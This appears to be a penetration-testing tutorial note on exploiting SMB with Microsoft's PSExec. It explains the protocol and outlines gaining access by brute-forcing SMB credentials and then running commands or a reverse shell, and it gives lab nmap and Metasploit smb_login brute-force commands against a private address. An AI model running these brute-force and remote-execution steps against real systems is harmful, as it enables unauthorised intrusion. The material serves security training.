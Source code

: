 
### Exploiting SMB with PSExec

#### What is SMB ?

* SMB (Server Message Block) is a netwrok file sharing protocol that is used to facilitate the sharing of files and peripherals (printers and serial ports) between computers on a local network (LAN).
* SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139.
* SAMBA is the open source Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.

#### SMB authentication

The SMB protocol utilizes two levels of authentication

* User authentication : users must provide a username and password in order to authenticate with the SMB server in order to access a share.
* Share authentication : users must provide a password in order to access restricted share.

_Note: both of these authentication levels utilize a challenge response authentication system._

#### What is PSExec ?

* PSExec is a lightweight telnet-replacement developed by Microsoft that allows you execute processes on remote windows systems using any user's credentials.
* PSExec authentication is performed via SMB.
* We can use PSExec utility to authenticate with the target system legitimately and run arbitratry commands or launch a remote command prompt.
* It is very similar to RCP, however, instead of controlling the remote system via GUI, commands are sent via CMD.

#### Exploitation process

* In order to utilize PSExec to gain access to a Windows target, we will need to identify legitimate user accounts and their respective passwords or password hashes.
* This can be done by leveraging various tools and techniques, however, the most common technique will involve performing an SMB login brute-force attack.
* We can narrow down our brute-force attack to only include common Windows user account like `Administrator`.
* After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PSExec and execute arbitrary system commands or obtain a reverse shell.

#### Lab

```bash
john@attack> nmap 10.3.24.84 -sV -sC
```

**Brute-force credentials**

```bash
john@attack> msfconsole

msf5> use scanner/smb/smb_login
msf5> options
msf5> set rhosts 10.3.24.84
msf5> set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5> set verbose false
msf5> run
```
